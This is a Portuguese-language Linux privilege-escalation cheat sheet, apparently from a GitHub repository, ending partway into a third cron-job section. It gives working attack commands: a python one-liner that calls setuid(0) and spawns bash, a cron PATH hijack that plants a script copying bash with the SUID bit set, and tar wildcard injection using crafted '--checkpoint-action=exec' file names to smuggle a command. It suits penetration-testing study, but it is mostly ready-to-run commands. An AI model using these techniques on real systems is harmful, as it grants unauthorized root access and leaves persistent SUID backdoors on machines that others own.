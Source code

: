 ```
$ /usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

#### Cron jobs  

###### Arquivo inexistente:  
```
$ cat /etc/crontab
```

```
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
* * * * * root overwrite.sh     #Este arquivo nao existe.
```

###### Criando o arquivo:  
```
$ echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
```

###### Executando:  
```
$ /tmp/bash -p
```

###### Check point com caracteres curingas  
```
$ cat /etc/crontab
```

```
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
* * * * * root /usr/local/bin/compress.sh
```

```
$ cat /usr/local/bin/compress.sh
```

```
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```

###### Criando o arquivo:  
```
$ echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh
$ touch /home/user/--checkpoint=1
$ touch /home/user/--checkpoint-action=exec=sh\runme.sh
```

###### Executando:  
```
$ /tmp/bash -p
```

###### Arquivo com permissao de gravacao:   
```
$ cat /etc/crontab
```
